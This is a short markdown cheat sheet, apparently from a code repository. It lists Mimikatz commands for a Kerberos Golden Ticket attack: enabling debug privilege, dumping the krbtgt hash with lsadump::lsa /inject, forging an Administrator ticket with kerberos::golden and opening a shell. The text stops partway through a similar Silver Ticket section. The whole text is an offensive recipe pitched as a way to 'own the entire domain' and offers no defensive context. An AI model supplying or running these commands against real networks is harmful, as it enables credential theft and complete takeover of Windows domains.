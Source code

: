 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 5) misc::cmd

# SILVER TICKET

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN
